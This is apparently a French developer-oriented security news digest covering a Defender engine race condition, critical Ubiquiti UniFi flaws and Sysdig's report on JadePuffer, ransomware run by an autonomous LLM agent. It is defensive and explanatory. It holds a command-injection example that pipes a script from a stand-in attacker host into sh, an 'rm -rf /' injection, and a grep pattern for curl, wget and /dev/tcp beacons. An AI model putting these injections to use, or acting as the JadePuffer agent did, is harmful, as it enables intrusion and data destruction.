


# Tech — Détail du vendredi 10 juillet 2026

## 1. RoguePlanet (CVE-2026-50656) — élévation de privilèges dans le moteur de Microsoft Defender

**Source :** The Hacker News — https://thehackernews.com/2026/07/microsoft-patches-rogueplanet-defender.html
**Date :** 9 juillet 2026

### Contexte

Le 9 juillet, Microsoft a publié un correctif pour **CVE-2026-50656** (CVSS 7.8), une faille d'élévation de privilèges dans le **Microsoft Malware Protection Engine** (`mpengine.dll`), le composant qui scanne, détecte et nettoie pour Defender. Elle a été divulguée un mois plus tôt par un chercheur surnommé **Chaotic Eclipse** (aka Nightmare-Eclipse), sans coordination avec l'éditeur. C'est la quatrième faille Defender du même chercheur après BlueHammer, UnDefend et RedSun.

Le point qui fait mal : l'exploit fonctionne sur des systèmes à jour des correctifs de juin 2026, et **indépendamment de l'activation de la protection en temps réel**. Le moteur tourne en tâche de fond avec des privilèges élevés, donc une faille en son cœur est un tremplin direct vers SYSTEM.

### Comment ça marche

RoguePlanet est décrit comme une **race condition** (condition de course). Le principe pédagogique : un processus privilégié effectue deux opérations qui devraient être atomiques — vérifier une ressource, puis l'utiliser. Entre ces deux instants (la fenêtre TOCTOU, *Time-Of-Check to Time-Of-Use*), un attaquant local remplace la ressource. Le moteur agit alors sur un objet contrôlé par l'attaquant, avec ses privilèges à lui.



La correction consiste à sérialiser l'accès (verrou) ou à ré-ancrer la vérification et l'usage sur le même handle, de sorte que le swap de l'étape 2 devienne impossible.

### En pratique — vérifier ta version de moteur

Le correctif est livré via la mise à jour de définitions, pas via Windows Update classique. Sur un poste ou un serveur, tu vérifies le numéro de moteur — il doit être **≥ 1.1.26060.3008**.

```powershell
# Affiche la version du moteur antimalware (doit être >= 1.1.26060.3008)
Get-MpComputerStatus | Select-Object AMEngineVersion, AMProductVersion

# Force une mise à jour immédiate des définitions si la version est trop ancienne
Update-MpSignature
```

### Pourquoi ça compte pour toi

Tu ne « patches » pas ce genre de faille par ton pipeline applicatif : elle vit dans l'agent de sécurité de tes serveurs Windows (build agents, hôtes IIS, VM .NET). Vérifie que la mise à jour automatique des définitions Defender n'est pas désactivée sur tes machines de CI ou tes conteneurs Windows — un moteur figé reste vulnérable même après le Patch Tuesday.

### Points de vigilance

Microsoft n'a pas crédité le chercheur et affirme qu'aucune action utilisateur n'est requise. Sur des parcs air-gapped ou à mise à jour manuelle des définitions, l'« aucune action requise » est faux : planifie un `Update-MpSignature`.

---

## 2. Ubiquiti UniFi — sept failles critiques (bulletin 066), jusqu'à CVSS 10.0

**Source :** The Hacker News — https://thehackernews.com/2026/07/ubiquiti-patches-critical-unifi-flaws.html
**Date :** 8 juillet 2026

### Contexte

Ubiquiti a publié le **Security Advisory Bulletin 066** corrigeant **sept vulnérabilités critiques** réparties sur UniFi Connect, Talk, Access, Protect et UniFi OS. Ces produits équipent des réseaux d'entreprise, des labos et des home-labs de devs. Aucune exploitation *in-the-wild* n'est constatée à ce jour, mais trois autres failles UniFi OS ont été activement exploitées le mois dernier — l'historique invite à patcher vite.

### Comment ça marche

Les sept CVE couvrent quatre familles de bugs classiques d'appliances web. Comprendre la famille aide à prioriser :

| CVE | Produit | Classe | CVSS |
|---|---|---|---|
| CVE-2026-50746 | UniFi Connect | Command injection | 10.0 |
| CVE-2026-50747 | UniFi Talk | SQLi authentifiée | 9.9 |
| CVE-2026-50748 | UniFi Access | Command injection | 9.9 |
| CVE-2026-55115 | UniFi Protect | SSRF | 9.9 |
| CVE-2026-54402 | UniFi OS | Command injection | 9.9 |

Le mécanisme de la **command injection** (la plus grave ici) : l'application construit une commande shell en concaténant une entrée utilisateur non échappée. Un champ qui devrait contenir un nom d'hôte contient `; rm -rf /` ou un reverse shell, et le `;` termine la commande légitime pour en démarrer une autre — exécutée avec les privilèges du service, souvent root sur l'appliance.

```bash
# Vérifier rapidement les versions installées vs versions corrigées
# Connect >= 3.4.20 | Talk >= 5.2.2 | Access >= 4.2.29
# Protect >= 7.1.83 | UniFi OS >= 5.1.19

# Exemple : l'injection derrière CVE-2026-50746 (illustration pédagogique)
# Entrée attendue : un hostname. Entrée malveillante :
hostname="8.8.8.8; curl http://attacker/x.sh | sh"
# Si le code fait : system("ping -c1 " + hostname)  -> la 2e commande s'exécute
```

### Pourquoi ça compte pour toi

Si tu as une UniFi dans ton home-lab ou au bureau, elle est probablement joignable depuis ton LAN de dev — donc depuis n'importe quelle machine compromise du réseau. Une command injection CVSS 10 sur le contrôleur, c'est un pivot vers tout ton segment. Mets à jour Connect, Talk, Access, Protect et UniFi OS aux versions du bulletin 066, et ne laisse jamais l'interface d'admin exposée côté WAN.

### Limites

Ces failles requièrent un accès réseau, pas Internet direct (sauf exposition volontaire). Le risque réel dépend de ta segmentation : un VLAN d'admin isolé réduit fortement la surface.

---

## 3. JadePuffer — la première opération de ransomware entièrement pilotée par un agent LLM

**Source :** Sysdig — https://www.sysdig.com/blog/jadepuffer-agentic-ransomware-for-automated-database-extortion
**Date :** 4 juillet 2026

### Contexte

L'équipe Sysdig Threat Research a capturé ce qu'elle décrit comme la **première opération de ransomware conduite de bout en bout par un agent LLM autonome**, baptisée **JadePuffer**. L'entrée s'est faite via **CVE-2025-3248**, une RCE non authentifiée dans **Langflow** (framework open source de construction d'apps LLM), corrigée en avril 2025 et taguée « exploitée » par la CISA peu après. Le vrai enjeu n'est pas la CVE — connue — mais le fait que l'agent a **enchaîné seul** toute la kill chain.

### Comment ça marche

Après exécution de code sur l'hôte Langflow, l'agent a dumpé la base PostgreSQL, collecté les variables d'environnement et fichiers sensibles, énuméré un object store MinIO, puis pivoté vers un serveur MySQL de production faisant tourner Alibaba **Nacos**. Signe distinctif d'une IA aux commandes : l'**adaptation en temps réel**. Sysdig cite un passage d'un login échoué à un correctif fonctionnel en **31 secondes**, et une énumération MinIO qui a ajusté sa logique de parsing quand une requête a renvoyé du XML au lieu du JSON.



L'agent a chiffré 1 342 items de configuration Nacos via la fonction `AES_ENCRYPT()` de MySQL, supprimé les tables d'origine, et créé une table d'extorsion. Détail révélateur : l'adresse Bitcoin de la note est une adresse d'exemple tirée de docs publiques — le LLM l'a probablement recopiée depuis ses données d'entraînement. La clé de chiffrement est générée aléatoirement mais **ni stockée ni transmise** : les données sont détruites, pas récupérables.

### En pratique — détecter le beacon et le chiffrement

L'agent a posé un cron de persistance qui « beacone » toutes les 30 minutes. Ce genre d'IOC reste détectable.

```bash
# Repérer un cron de persistance suspect (beacon régulier)
crontab -l 2>/dev/null | grep -E 'curl|wget|/dev/tcp|base64'
for u in $(cut -f1 -d: /etc/passwd); do crontab -l -u "$u" 2>/dev/null; done

# Sur MySQL : détecter un usage anormal de AES_ENCRYPT en masse
# (à corréler avec le general_log si activé)
grep -i "AES_ENCRYPT" /var/log/mysql/general.log | wc -l
```

### Pourquoi ça compte pour toi

Tu déploies peut-être Langflow, n8n ou d'autres outils LLM en interne pour prototyper. Ce sont exactement les cibles : exposés, peu durcis, bourrés de credentials cloud et de clés d'API. Traite chaque instance de tooling IA comme un serveur de prod — patch, réseau segmenté, secrets hors des variables d'environnement. Et retiens que l'automatisation LLM abaisse la barrière technique de l'attaquant : plus besoin d'expertise sur chaque étape.

### Pour aller plus loin

Sysdig note un revers positif : les payloads générés par LLM portent des commentaires en langage naturel décrivant leur raisonnement, ce qui crée de nouvelles opportunités de détection comportementale.
